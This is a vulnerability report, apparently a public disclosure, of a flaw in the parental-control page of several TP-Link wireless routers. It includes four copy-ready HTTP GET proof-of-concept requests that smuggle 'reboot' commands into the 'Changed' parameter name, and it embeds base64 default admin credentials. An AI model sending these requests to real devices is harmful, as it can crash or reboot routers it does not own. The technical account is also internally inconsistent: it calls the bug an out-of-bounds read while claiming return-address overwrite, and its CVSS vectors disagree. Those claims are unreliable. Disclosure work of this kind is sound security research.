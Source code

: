 # TP-Link TL-WR740N/TL-WR940N/TL-WR941ND/TL-WR841N wireless router /userRpm/ParentCtrlRpm buffer read out-of-bounds vulnerability

## 1 Basic Information

- Vulnerability Type: Buffer read out-of-bounds
- Vulnerability Description: A buffer overflow vulnerability exists in TP-Link TL-WR740N V1/V2, TP-Link TL-WR940N V2/V3, TP-Link TL-WR941ND V5/V6 and TP-Link TL-WR841N V8 wireless router. Its /userRpm/ParentCtrlRpm implementation has a security vulnerability in processing Changed GET key parameters, allowing remote attackers to submit special requests through the vulnerability, causing buffer out-of-bounds read errors, which may lead to memory-sensitive information leakage and denial of service.
- Device model:
  - TP-Link TL-WR740N V1/V2  
  - TP-Link TL-WR940N V2/V3  
  - TP-Link TL-WR941ND V5/V6  
  - TP-Link TL-WR841N V8

## 2 Vulnerability Value

- Maturity of Public Information: None

- Order of Public Vulnerability Analysis Report: None

- Stable reproducibility: yes

- Vulnerability Score (refer to CVSS)

   - V2：[8.5 High AV:N/AC:M/Au:S/C:C/I:C/A:C](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?vector=(AV:N/AC:M/Au:S/C:C/I:C/A:C))
   - V3.1：[8.6 High AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H&version=3.1)

- Exploit Conditions

   - Attack Vector Type: Network
   - Attack Complexity: Low
   - Complexity of Exploit
     - Permission Constraints: authentication is required
     - User Interaction: No victim interaction required
   - Scope of Impact: Changed (may affect other components than vulnerable ones)
   - Impact Indicators:
     - Confidentiality: High
     - Integrity: High
     - Availability: High
   - Stability of vulnerability exploitation: Stable recurrence
   - Whether the product default configuration: There are vulnerabilities in functional components that are enabled out of the factory

- Exploit Effect

   - Denial of Service

## 3 PoC

The PoC of TP-Link TL-WR740N is as follows:

```http
GET /userRpm/ParentCtrlRpm.htm?child_mac=A6-CA-2F-00-EB-67&lan_lists=0&url_comment=1&url_0=11&url_1=&url_2=&url_3=&url_4=&url_5=&url_6=&url_7=&scheds_lists=255&enable=1&Changed||reboot|=0&SelIndex=0&Page=1&rule_mode=0&Save=Save HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Connection: keep-alive
Referer: http://192.168.1.1/userRpm/ParentCtrlRpm.htm?Add=Add&Page=1
Upgrade-Insecure-Requests: 1

```

The PoC of TP-Link TL-WR940N V2/TL-WR941ND V5 is as follows:

```http
GET /MZKBGETBOHFWYCNC/userRpm/ParentCtrlRpm.htm?child_mac=DE-80-8B-3D-7E-B1&lan_lists=0&url_comment=11112&url_0=11&url_1=&url_2=&url_3=&url_4=&url_5=&url_6=&url_7=&scheds_lists=255&enable=1&ChangedCMD=$"reboot";$CMD=0&SelIndex=0&Page=1&rule_mode=0&Save=Save HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://192.168.0.1/ZRCEHZIAURWJWDTC/userRpm/ParentCtrlRpm.htm?Add=Add&Page=1
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```  

The PoC of TP-Link TL-WR940N V3/TL-WR941ND V6 is as follows:

```http
GET /ZPWQAIIBKWOVQDBA/userRpm/ParentCtrlRpm.htm?child_mac=DA-0F-EB-3B-36-E5&lan_lists=0&url_comment=1&url_0=123&url_1=&url_2=&url_3=&url_4=&url_5=&url_6=&url_7=&scheds_lists=255&enable=1&Changeda|reboot=0&SelIndex=0&Page=1&rule_mode=0&Save=Save HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://192.168.0.1/WRKWVQRABLAJMDEB/userRpm/ParentCtrlRpm.htm?Add=Add&Page=1
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```  

The PoC of TP-Link TL-WR841N V8 is as follows:

```http
GET /userRpm/ParentCtrlRpm.htm?child_mac=1E-AB-B4-9D-17-28&lan_lists=0&url_comment=sdjfhoei&url_0=www.baidu.com&url_1=&url_2=&url_3=&url_4=&url_5=&url_6=&url_7=&scheds_lists=255&enable=1&Changed|reboot=0&SelIndex=0&Page=1&rule_mode=0&Save=Save HTTP/1.1
Host: 0.0.0.0:49169
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Connection: keep-alive
Referer: http://0.0.0.0:49169/userRpm/ParentCtrlRpm.htm?Add=Add&Page=1
Cookie: Authorization=
Upgrade-Insecure-Requests: 1

```  

## 4 Vulnerability Principle

When the Web management component receives a GET request, its /userRpm/ParentCtrlRpm component implements a security vulnerability in processing the Changed GET key parameter. The length of the parameter key of Changed can be any length and it is put into the stack without any boundary check, resulting in a read out-of-bounds. An attacker can exploit this vulnerability to overwrite the return address, which may lead to the disclosure of memory-sensitive information and denial of service.

The firmware is simulated by means of simulation, the simulation process and interface are as follows:

![](./imgs/success.png)

![](./imgs/before.png)

![](./imgs/router.png)

![](./imgs/router2.png)

![](./imgs/router3.png)

![](./imgs/router4.png)

After sending the PoC, a buffer read out-of-bounds memory error occurred, encountered an `unexpected fatal signal 11` error and a BadVA error, causing the program to crash.

![](./imgs/read_err.png)

![](./imgs/fatal.png)

![](./imgs/fatal2.png)

![](./imgs/crash.png)

## 5. The basis for judging as a 0-day vulnerability

Search the ParentCtrlRpm keyword in the NVD database, and no vulnerabilities are found (the same series of vulnerabilities can be found by directly searching the interface name to find related historical vulnerabilities).

Search the ParentCtrlRpm keyword in the CNVD database, and no vulnerabilities are found (the same series of vulnerabilities can be found by directly searching the interface name to find related historical vulnerabilities).
